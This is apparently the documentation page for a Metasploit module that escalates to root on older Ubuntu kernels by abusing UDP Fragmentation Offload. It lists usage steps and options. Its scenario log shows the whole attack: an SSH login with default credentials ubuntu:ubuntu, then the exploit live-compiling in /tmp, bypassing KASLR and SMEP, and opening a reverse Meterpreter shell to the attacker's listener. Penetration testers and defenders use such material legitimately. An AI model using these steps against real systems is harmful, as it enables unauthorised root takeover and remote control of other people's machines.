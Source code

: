## Vulnerable Application

This module attempts to gain root privileges on Linux systems by abusing UDP Fragmentation Offload (UFO).
  
The bug was initially introduced in October 2005 and patched in September 2017, potentially affecting a large
number of kernels; however this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels 
4.4.0-21 <= 4.4.0-83 (Trusty), and 4.4.0-81 <= 4.8.0-58 (Xenial), including Linux distros based on Ubuntu
such as Linux Mint.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable box
  3. Do: ```use exploit/linux/local/ufo_privilege_escalation```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop

#### Initial Access

```
resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
resource (ubuntu.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (ubuntu.rb)> set username ubuntu
username => ubuntu
resource (ubuntu.rb)> set password ubuntu
password => ubuntu
resource (ubuntu.rb)> exploit
[+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare) Linux ubuntu-desktop-14 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:07:32 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:45819 -> 2.2.2.2:22) at 2018-04-03 20:58:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf5 auxiliary(scanner/ssh/ssh_login) > use exploit/linux/local/ufo_privilege_escalation 
msf5 exploit(linux/local/ufo_privilege_escalation) > set verbose true
verbose => true
msf5 exploit(linux/local/ufo_privilege_escalation) > set session 1
session => 1
msf5 exploit(linux/local/ufo_privilege_escalation) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf5 exploit(linux/local/ufo_privilege_escalation) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Linux kernel version 4.4.0-31-generic is vulnerable
[*] Checking if SMAP is enabled ...
[+] SMAP is not enabled
[+] System architecture x86_64 is supported
[+] Unprivileged user namespaces are permitted
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.4UnI1EFL.c' (28356 bytes) ...
[*] Max line length is 65537
[*] Writing 28356 bytes in 2 chunks of 57414 bytes (octal-encoded), using printf
[*] Next chunk is 43454 bytes
[*] Writing '/tmp/.S6G2g9rnUj' (207 bytes) ...
[*] Max line length is 65537
[*] Writing 207 bytes in 1 chunks of 629 bytes (octal-encoded), using printf
[*] Launching exploit ...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (857352 bytes) to 2.2.2.2
[*] [.] starting
[*] [.] checking kernel version
[*] [.] kernel version '4.4.0-31-generic' detected
[*] [~] done, version looks good
[*] [.] checking SMEP and SMAP
[*] [~] done, looks good
[*] [.] setting up namespace sandbox
[*] [~] done, namespace sandbox set up
[*] [.] KASLR bypass enabled, getting kernel addr
[*] [.] trying /proc/kallsyms...
[*] [.] trying /boot/System.map-4.4.0-31-generic...
[*] [-] open/read(/boot/System.map-4.4.0-31-generic)
[*] [.] trying syslog...
[*] [~] done, kernel addr:   ffffffff81000000
[*] [.] commit_creds:        ffffffff8109d760
[*] [.] prepare_kernel_cred: ffffffff8109da40
[*] [.] SMEP bypass enabled, mmapping fake stack
[*] [~] done, fake stack mmapped
[*] [.] executing payload ffffffff8104516a
[*] [~] done, should be root now
[*] [.] checking if we got root
[*] [+] got r00t ^_^
[*] Cleaning up /tmp/.S6G2g9rnUj and /tmp/.4UnI1EFL ...
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:60474) at 2018-07-21 13:35:49 -0400

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 14.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
